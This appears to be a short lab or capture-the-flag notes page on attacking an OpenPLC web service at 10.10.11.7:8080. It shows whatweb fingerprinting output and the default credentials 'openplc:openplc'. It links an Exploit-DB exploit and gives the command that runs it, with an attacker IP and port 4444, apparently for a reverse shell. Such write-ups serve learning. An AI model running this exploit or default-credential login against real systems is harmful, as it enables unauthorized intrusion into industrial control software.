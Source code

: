 whatweb
```bash
whatweb 10.10.11.7:8080
http://10.10.11.7:8080 [302 Found] Cookies[session], Country[RESERVED][ZZ], HTTPServer[Werkzeug/1.0.1 Python/2.7.18], HttpOnly[session], IP[10.10.11.7], Python[2.7.18], RedirectLocation[http://10.10.11.7:8080/login], Title[Redirecting...], Werkzeug[1.0.1]
http://10.10.11.7:8080/login [200 OK] Cookies[session], Country[RESERVED][ZZ], HTML5, HTTPServer[Werkzeug/1.0.1 Python/2.7.18], HttpOnly[session], IP[10.10.11.7], PasswordField[password], Python[2.7.18], Werkzeug[1.0.1]
```

login page with default creds `openplc:openplc`

 - possible exploit 
 - https://www.exploit-db.com/exploits/49803
- `python3 49803.py -u http://10.10.11.7:8080 -l openplc -p openplc -i 10.10.14.85 -r 4444`
- ![[Screenshots/Pasted image 20240513170128.png]]
- 